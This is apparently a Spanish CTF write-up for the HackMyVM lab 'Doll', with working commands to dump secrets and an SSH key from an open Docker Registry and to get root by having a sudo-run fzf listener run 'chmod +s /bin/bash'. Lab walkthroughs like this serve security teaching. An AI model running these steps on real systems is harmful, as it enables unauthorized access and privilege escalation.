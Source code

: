 ```yaml
---
layout: post
title: Doll
date: 2023-05-20
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Docker Registry, SSH]
---
```


# Doll [ Hack My VM ]
![light mode only](/assets/img/imgs/doll/logo.jpg){: .light }
![dark mode only](/assets/img/imgs/doll/logo_black.png){: .dark }

# Reconocimiento
### NMAP
```
# Nmap 7.93 scan initiated Sat May 20 14:02:11 2023 as: nmap -sCV -p22,1007 -oN targeted 192.168.1.112
Nmap scan report for 192.168.1.112
Host is up (0.00065s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d732ac404ba84166d3d811496ceded4b (RSA)
|   256 810e67f8c3d2501e4d092a5811c8d495 (ECDSA)
|_  256 0dc37c540b9d3132f2d909d3eded93cd (ED25519)
1007/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 20 14:03:02 2023 -- 1 IP address (1 host up) scanned in 50.60 seconds
```

Vemos que el puerto `22` está abierto, pero no tenemos ningún usuaio para poder conectarnos.

### Inspección
Como anteriormente hemos visto, **NMAP** nos ha reportado un puerto algo extraño, vamos a buscar más información sobre `Docker Registry`.

Tras hacer una búsqueda me encontré con un artículo de [**`HackTricks`**](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), aquí explica paso a paso cómo listar los `Dockers` disponibles en el caso de que sea público.

Para comenzar tendremos que dirigirnos a la siguiente `URL`: `http://192.168.1.112/v2/_catalog`.

Nos debería aparecer lo siguiente:

![catalog](/assets/img/imgs/doll/catalog.png)

Vemos que solo existe un imagen, esto nos hará más fácil la explotación.

Bien, una vez tengamos estos datos podemos hacer una petición con `cURL` al siguiente **`endpoint`**: `/v2/dolly/manifests/latest`:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/]
└─# curl http://192.168.1.112:1007/v2/dolly/manifests/latest      
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
    [..]
   ],
   "history": [
      {
         [...]
      },
      {
         "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
      },
   [...]
}
```

Vemos bastante información, pero entre todo aquel cúmulo letras veremos la siguiente línea: `passwd=devilcollectsit`, tal vez ahora no nos haga falta, pero será de vital importancia.

¡Bien! Tenemos una contraseña e información importante, vamos a ver qué podemos hacer.

# Movimiento Lateral
### Shell
Para el siguiente paso utilizaremos la información extraída anteriormente.

Como habréis visto en la respuesta `JSON` anterior, tenemos varios `BlobSums`, vamos a descarganos el primer **`Blob`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# curl http://192.168.1.112:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 12
drwxr-xr-x 2 root root 4096 May 20 15:08 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
```

Vamos a descomprimirlo, para ello utilizaremos la herramienta **`TAR`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# tar -xf blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 24
drwxr-xr-x 5 root root 4096 May 20 15:09 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
drwxr-xr-x 2 root root 4096 Apr 25 04:52 etc
drwxr-xr-x 3 root root 4096 Apr 25 04:52 home
drwx------ 2 root root 4096 Apr 25 04:52 root
```

Vemos varias carpetas, pero la que nos interesa es la carpeta `home`, si nos adentramos veremos que hay una subcarpeta con el nombre de un usuario, `bela`.

Si continuamos investigando veremos que dentro de su directorio personal tiene la carpeta `.ssh`, vamos a ver qué tiene dentro:

```sh
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# ls -la
total 16
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 .
drwxr-xr-x 3 root root 4096 Apr 25 04:52 ..
-rw------- 1 kali kali   57 Apr 25 04:53 .ash_history
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .ssh
-rwxr-xr-x 1 kali kali    0 Dec 31  1969 .wh..wh..opq
                                                                                                                                       
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# cd .ssh 
                                                                                                                                       
┌──(root㉿kali)-[~/…/exploits/home/bela/.ssh]
└─# ls -la
total 12
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 ..
-rw-r--r-- 1 kali kali 2635 Apr 25 04:53 id_rsa
```

¡Wow! Tenemos la clave `RSA` privada de `Bela`, démosle permisos y accedamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# chmod 600 bela.id_rsa

┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112                       
Enter passphrase for key 'bela.id_rsa': 
```

Vemos que nos pide una clave de acceso, por suerte recordamos la contraseña antes encontrada y la probamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112
Enter passphrase for key 'bela.id_rsa': devilcollectsit
Linux doll 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat May 20 21:14:59 2023 from 192.168.1.106
bela@doll:~$
```

¡Estupendo! Ya estamos como `Bela` en la máquina.

### Subida de privilegios
Para conseguir el **control total** de la máquina comencé por mirar los permisos que disponía en la máquina con `sudo -l`:

```sh
bela@doll:~$ sudo -l
Matching Defaults entries for bela on doll:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bela may run the following commands on doll:
    (ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
```

Vemos que podemos ejecutar como cualquier usuario y sin contraseña (es decir, como `root`) el binario `FZF` con el argumento `--listen=1337`, vamos a ver qué es lo que hace esta opción.

Para ello me miré el [manual](https://man.archlinux.org/man/fzf.1.en#listen_=HTTP_PORT_) del comando. Tras haber leído su funcionamiento podemos comenzazr con la explotación.

Para ello comenzaremos por traernos el puerto `1337` a nuestra máquina, para ello podemos utilizar el argumento **`-L`** de **`SSH`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112 -L 1337:127.0.0.1:1337
```

Ahora tendremos en nuestra máquina el puerto `1337`, esto nos servirá para enviar una petición **`POST`** con argumentos, en el manual ponen un ejemplo.

Para poder seguir con la explotación debemos ejecutar el binario como `root`:

```sh
bela@doll:~$ sudo /usr/bin/fzf --listen=1337
```

Una vez tengamos el binario ejecutado ya está todo listo para obtener el **control total** de la máquina, para ello nos falta enviar la siguiente petición **`POST`** mediante **`cURL`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# curl -X POST 127.0.0.1:1337 -d 'execute(chmod +s /bin/bash)'
```

Si vemos nuevos permisos de **`Bash`** nos debería salir lo siguiente:

```sh
bela@doll:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Como vemos ahora podemos ejecutar el binario con los permisos de `root`, es decir, nos podemos convertir en `root` haciendo lo siguiente:

```sh
bela@doll:~$ bash -p
bash-5.1#
```

¡Enhorabuena! Hemos conseguido tener el **control total** de la máquina. ¡Qué fácil!
